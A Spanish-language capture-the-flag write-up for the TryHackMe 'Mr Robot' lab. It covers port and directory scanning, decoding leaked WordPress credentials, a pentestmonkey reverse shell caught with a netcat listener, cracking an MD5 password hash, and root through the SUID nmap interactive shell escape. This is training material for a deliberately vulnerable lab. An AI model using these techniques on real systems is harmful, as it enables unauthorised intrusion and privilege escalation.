 ```yaml
---
title: "Mr Robot CTF | Tryhackme 🤖"
date: 2023-08-30T02:01:58+05:30
description: "Esta es una máquina virtual destinada para usuarios principiantes/intermedios. Hay 3 llaves ocultas ubicadas en la máquina, ¿puedes encontrarlas? "
tags: [tryhackme, medium, suid]
---
```



## Enumeración



```shell
$ nmap -p- -Pn -n --min-rate 2000 -vvv 10.10.9.68

Host is up, received user-set (0.34s latency).
Scanned at 2023-08-30 10:17:29 -05 for 67s
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE REASON
22/tcp  closed ssh     reset ttl 61
80/tcp  open   http    syn-ack ttl 61
443/tcp open   https   syn-ack ttl 61
```



Vemos que hay un servidor web ejecutándose. Entonces, mientras lo exploramos, ejecutemos un análisis Dirsearch para encontrar archivos y directorios ocultos. 


```bash
$ dirsearch -u http://10.10.9.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php,html,cgi,bin,txt

```

* encontramos varios directorios entre ellos uno llamado `/robots` donde encontramos cosas

```
User-agent: *
fsocity.dic
key-1-of-3.txt

```  

abrimos `key-1-of-3.txt` y encontramos la primera flag 🤙

--------------------------------------------------------------

seguimos buscando directorios y encontramos uno `/license` al abrirlo encontramos un code en base64 
`ZWxsaW90OkVSMjgtMDY1Mgo=` lo desciframos

```
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

parecen ser unas credenciales y ya que la enumeración nos dio directorios de wordpress `/wp-login` probamos si sin las correctas. Y lo son !!!!


{{< figure src="https://i.imgur.com/9pqm4jo.png">}}

## Reverse shell

acá ya es solo inyectar un script malicioso para obtener la shell, en este caso usamos la ayuda de `pentestmonkey` y nos ponemos en escucha por el puerto: 1234

```shell
nc -nvlp 1234
```

y listo tenemos una shell!!!


{{< figure src="https://i.imgur.com/5MBkxbs.png">}}

## Escalada de privilegios

entramos a la carpeta `/home` y encontramos un usuario llamado `robot` miramos su contenido


{{< figure src="https://i.imgur.com/dzrbBFe.png">}}

* como vemos tenemos permisos de lectura en el archivo `password.raw-md5` lo revisamos

```
daemon@linux:/home/robot$ cat pass
robot:c3fcd3d76192e4007dfb496cca67e13b
```

usamos la web [Crackstation](https://crackstation.net/) para descifrar la contraseña

```
daemon@linux:/home/robot$ su -l robot
Password: 
$ ls
key-2-of-3.txt	password.raw-md5
$ whoami 
robot
```
## Acceso root

buscamos archivos `SUID` 

```
robot@linux:/$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
daemon@linux:/$ 


```

vemos el bin de `nmap` y damos un vistaso a [Gtobins](https://gtfobins.github.io/)

```
robot@linux:/$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root

```

¡Tenemos root! Ahora sólo nos falta conseguir el último 🔑:

```
cd /root
ls
firstboot_done	key-3-of-3.txt

```

Y listo pues. 🤠